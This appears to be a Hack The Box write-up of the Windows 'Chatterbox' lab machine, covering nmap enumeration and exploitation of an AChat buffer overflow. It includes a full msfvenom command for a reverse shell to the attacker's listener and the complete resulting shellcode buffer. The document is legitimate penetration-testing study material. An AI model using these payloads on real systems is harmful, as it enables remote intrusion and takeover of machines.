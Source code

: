 ```yaml
---
layout: post
title:  "Write Up: Hack The Box -Chatterbox"
date:   2024-08-12 13:21:56 -0400
categories: oscp windows priv-esc tcm-security course
---
```


10.10.10.74
me - 10.10.14.14
Kicked it off running autorecon and namp per usual and got the following returned from nmap:

```
└─$ sudo nmap -sC -sV -p- -oA chatterbox 10.10.10.74
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 17:33 EDT
Stats: 0:00:05 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Stats: 0:00:39 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 68.50% done; ETC: 17:34 (0:00:12 remaining)
Stats: 0:01:17 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 45.45% done; ETC: 17:35 (0:00:31 remaining)
Nmap scan report for 10.10.10.74
Host is up (0.022s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         AChat chat system httpd
|_http-title: Site doesn't have a title.
|_http-server-header: AChat
9256/tcp  open  achat        AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-08-15T02:34:43
|_  start_date: 2024-08-15T01:27:45
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-08-14T22:34:40-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 6h19m03s, deviation: 2h18m33s, median: 4h59m03s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 119.79 seconds
```

I did a quick run on enum4linux and tried listing out smb shares using smbclient and wasn't getting anything throught there so going to ignore smb for now.

[screenshot]


Looks like AChat is running on port 9255, doing a quick search for exploits I find a buffer overflow one which looks tasty - https://github.com/VEEXH/Achat-0.150-beta7---Remote-Buffer-Overflow/tree/main


msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python




```
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51"
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x49\x41\x68"
buf += b"\x41\x41\x41\x5a\x31\x41\x49\x41\x49\x41\x4a\x31"
buf += b"\x31\x41\x49\x41\x49\x41\x42\x41\x42\x41\x42\x51"
buf += b"\x49\x31\x41\x49\x51\x49\x41\x49\x51\x49\x31\x31"
buf += b"\x31\x41\x49\x41\x4a\x51\x59\x41\x5a\x42\x41\x42"
buf += b"\x41\x42\x41\x42\x41\x42\x6b\x4d\x41\x47\x42\x39"
buf += b"\x75\x34\x4a\x42\x69\x6c\x6a\x48\x53\x52\x59\x70"
buf += b"\x69\x70\x79\x70\x51\x50\x52\x69\x39\x55\x6c\x71"
buf += b"\x45\x70\x4f\x74\x34\x4b\x42\x30\x6c\x70\x42\x6b"
buf += b"\x51\x42\x6c\x4c\x42\x6b\x42\x32\x6d\x44\x44\x4b"
buf += b"\x70\x72\x6b\x78\x4c\x4f\x78\x37\x6f\x5a\x4b\x76"
buf += b"\x6c\x71\x69\x6f\x34\x6c\x6d\x6c\x33\x31\x73\x4c"
buf += b"\x4a\x62\x4e\x4c\x4f\x30\x45\x71\x38\x4f\x7a\x6d"
buf += b"\x7a\x61\x37\x57\x6a\x42\x5a\x52\x61\x42\x71\x47"
buf += b"\x62\x6b\x4e\x72\x4a\x70\x52\x6b\x4d\x7a\x4f\x4c"
buf += b"\x62\x6b\x70\x4c\x6a\x71\x30\x78\x6b\x33\x31\x38"
buf += b"\x7a\x61\x66\x71\x4f\x61\x44\x4b\x62\x39\x4b\x70"
buf += b"\x49\x71\x6a\x33\x42\x6b\x6f\x59\x4c\x58\x48\x63"
buf += b"\x4f\x4a\x6f\x59\x62\x6b\x30\x34\x64\x4b\x6d\x31"
buf += b"\x48\x56\x6e\x51\x69\x6f\x44\x6c\x36\x61\x66\x6f"
buf += b"\x7a\x6d\x69\x71\x45\x77\x4f\x48\x6b\x30\x63\x45"
buf += b"\x6b\x46\x6c\x43\x31\x6d\x6b\x48\x4d\x6b\x71\x6d"
buf += b"\x6b\x74\x31\x65\x5a\x44\x72\x38\x74\x4b\x6f\x68"
buf += b"\x6b\x74\x69\x71\x79\x43\x31\x56\x32\x6b\x4c\x4c"
buf += b"\x30\x4b\x64\x4b\x51\x48\x4b\x6c\x4d\x31\x39\x43"
buf += b"\x52\x6b\x59\x74\x74\x4b\x6d\x31\x76\x70\x44\x49"
buf += b"\x4f\x54\x6e\x44\x4b\x74\x4f\x6b\x31\x4b\x43\x31"
buf += b"\x6f\x69\x6e\x7a\x50\x51\x59\x6f\x4b\x30\x51\x4f"
buf += b"\x61\x4f\x31\x4a\x34\x4b\x4a\x72\x58\x6b\x74\x4d"
buf += b"\x6f\x6d\x50\x68\x6c\x73\x6f\x42\x79\x70\x6d\x30"
buf += b"\x30\x68\x53\x47\x61\x63\x6f\x42\x61\x4f\x52\x34"
buf += b"\x51\x58\x50\x4c\x62\x57\x6d\x56\x6c\x47\x4b\x4f"
buf += b"\x7a\x35\x77\x48\x42\x70\x49\x71\x4b\x50\x4d\x30"
buf += b"\x4c\x69\x78\x44\x4e\x74\x32\x30\x62\x48\x4c\x69"
buf += b"\x45\x30\x62\x4b\x6b\x50\x4b\x4f\x48\x55\x62\x30"
buf += b"\x70\x50\x72\x30\x6e\x70\x71\x30\x52\x30\x4f\x50"
buf += b"\x4e\x70\x53\x38\x77\x7a\x5a\x6f\x79\x4f\x59\x50"
buf += b"\x39\x6f\x39\x45\x63\x67\x62\x4a\x7a\x65\x51\x58"
buf += b"\x4c\x4a\x69\x7a\x6c\x4e\x6a\x6e\x32\x48\x4c\x42"
buf += b"\x69\x70\x6a\x71\x31\x4c\x54\x49\x58\x66\x72\x4a"
buf += b"\x5a\x70\x70\x56\x50\x57\x6f\x78\x44\x59\x47\x35"
buf += b"\x42\x54\x53\x31\x6b\x4f\x77\x65\x42\x65\x69\x30"
buf += b"\x63\x44\x6c\x4c\x69\x6f\x4e\x6e\x4c\x48\x73\x45"
buf += b"\x38\x6c\x4f\x78\x48\x70\x67\x45\x76\x42\x71\x46"
buf += b"\x6b\x4f\x78\x55\x33\x38\x63\x33\x32\x4d\x71\x54"
buf += b"\x79\x70\x45\x39\x79\x53\x6e\x77\x52\x37\x70\x57"
buf += b"\x4d\x61\x4b\x46\x52\x4a\x6e\x32\x6f\x69\x6e\x76"
buf += b"\x69\x52\x4b\x4d\x33\x36\x58\x47\x71\x34\x6c\x64"
buf += b"\x6f\x4c\x4b\x51\x4b\x51\x42\x6d\x30\x44\x6b\x74"
buf += b"\x5a\x70\x77\x56\x4d\x30\x4d\x74\x50\x54\x42\x30"
buf += b"\x52\x36\x4f\x66\x32\x36\x31\x36\x61\x46\x4e\x6e"
buf += b"\x32\x36\x61\x46\x32\x33\x4e\x76\x6f\x78\x70\x79"
buf += b"\x76\x6c\x6f\x4f\x45\x36\x6b\x4f\x7a\x35\x42\x69"
buf += b"\x69\x50\x4e\x6e\x31\x46\x4f\x56\x6b\x4f\x4c\x70"
buf += b"\x63\x38\x4c\x48\x73\x57\x4d\x4d\x53\x30\x69\x6f"
buf += b"\x59\x45\x65\x6b\x78\x70\x36\x55\x74\x62\x70\x56"
buf += b"\x72\x48\x66\x46\x35\x45\x47\x4d\x75\x4d\x79\x6f"
buf += b"\x36\x75\x4d\x6c\x4d\x36\x61\x6c\x5a\x6a\x35\x30"
buf += b"\x4b\x4b\x47\x70\x74\x35\x69\x75\x75\x6b\x4e\x67"
buf += b"\x4e\x33\x32\x52\x50\x6f\x52\x4a\x79\x70\x62\x33"
buf += b"\x6b\x4f\x47\x65\x41\x41"
```

[screenshot]

So now we have foothold

